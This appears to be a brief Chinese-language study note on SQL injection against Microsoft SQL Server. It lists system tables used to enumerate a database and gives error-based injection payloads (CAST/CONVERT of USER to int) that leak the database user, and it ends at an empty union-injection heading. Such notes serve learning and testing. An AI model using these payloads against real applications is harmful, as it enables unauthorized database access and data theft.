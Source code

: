```mssql
master..sysdatabases -- 存放所有数据库
master..sysobjects --  存放所有数据表

-- 字段名为name

select name from master..sysobjects where xtype='U' -- 查询用户自建表
```

```mssql
[dbname].information_schema.columns  -- db的所有字段

字段名table_name,column_name
```

```mssql
[dbname].information_schema.tables 	 -- db的所有表

字段名table_name
```





# 注入手段

## 报错注入

> 利用显示或隐式转换来报错注入

```mssql
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))
```

![image-20230515211249595](../../../../images/image-20230515211249595-1697520285581.png)



【SQL注入】详解基于MSSQL “order by”语句报错的SQL注入技术 – 绿盟科技技术博客
https://blog.nsfocus.net/mssql-order-by/



## 联合注入
